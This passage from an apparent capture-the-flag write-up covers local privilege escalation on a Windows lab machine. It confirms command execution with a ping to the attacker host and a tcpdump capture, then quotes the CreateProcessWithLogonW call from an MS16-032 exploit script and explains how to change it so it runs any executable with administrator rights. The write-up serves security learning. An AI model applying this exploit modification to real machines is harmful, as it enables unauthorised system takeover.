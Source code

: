 Running powershell directly does not work. But running it from the shell with commands behind it works fine:

```
C:\Windows\SysNative\WindowsPowerShell\v1.0>powershell.exe ping 10.10.14.21
powershell.exe ping 10.10.14.21

Pinging 10.10.14.21 with 32 bytes of data:
Reply from 10.10.14.21: bytes=32 time=27ms TTL=63
Reply from 10.10.14.21: bytes=32 time=28ms TTL=63
Reply from 10.10.14.21: bytes=32 time=27ms TTL=63
Reply from 10.10.14.21: bytes=32 time=29ms TTL=63

Ping statistics for 10.10.14.21:
    Packets: Sent = 4, Received = 4, Lost = 0 (0% loss),
Approximate round trip times in milli-seconds:
    Minimum = 27ms, Maximum = 29ms, Average = 27ms

C:\Windows\SysNative\WindowsPowerShell\v1.0>
```

C:\Windows\SysNative\WindowsPowerShell\v1.0 makes sure that we are running x64 binaries.

And to confirm that it worked correctly:

```
kali@kali:~/Downloads$ sudo tcpdump -i tun0 icmp
tcpdump: verbose output suppressed, use -v or -vv for full protocol decode
listening on tun0, link-type RAW (Raw IP), capture size 262144 bytes
12:57:21.896877 IP 10.129.1.127 > 10.10.14.21: ICMP echo request, id 1, seq 1, length 40
12:57:21.896895 IP 10.10.14.21 > 10.129.1.127: ICMP echo reply, id 1, seq 1, length 40
12:57:22.910187 IP 10.129.1.127 > 10.10.14.21: ICMP echo request, id 1, seq 2, length 40
12:57:22.910205 IP 10.10.14.21 > 10.129.1.127: ICMP echo reply, id 1, seq 2, length 40
12:57:23.925849 IP 10.129.1.127 > 10.10.14.21: ICMP echo request, id 1, seq 3, length 40
12:57:23.925869 IP 10.10.14.21 > 10.129.1.127: ICMP echo reply, id 1, seq 3, length 40
12:57:24.941937 IP 10.129.1.127 > 10.10.14.21: ICMP echo request, id 1, seq 4, length 40
12:57:24.941954 IP 10.10.14.21 > 10.129.1.127: ICMP echo reply, id 1, seq 4, length 40
```

So now we need to find the MS16-032 exploit. There are tons lying around. 

The important part of the code is around line 330 on most of the scripts I could find.

```
# LOGON_NETCREDENTIALS_ONLY / CREATE_SUSPENDED
		$CallResult = [Advapi32]::CreateProcessWithLogonW(
			"user", "domain", "pass",
			0x00000002, "C:\Windows\System32\cmd.exe", "",
			0x00000004, $null, $GetCurrentPath,
			[ref]$StartupInfo, [ref]$ProcessInfo)
```

`0x00000002, "C:\Windows\System32\cmd.exe", "",` Opens up a cmd window on the remote computer with administrator privileges.

We can change this to run what we want. The first part is what executable we want to run, and the second is the parameters we pass.
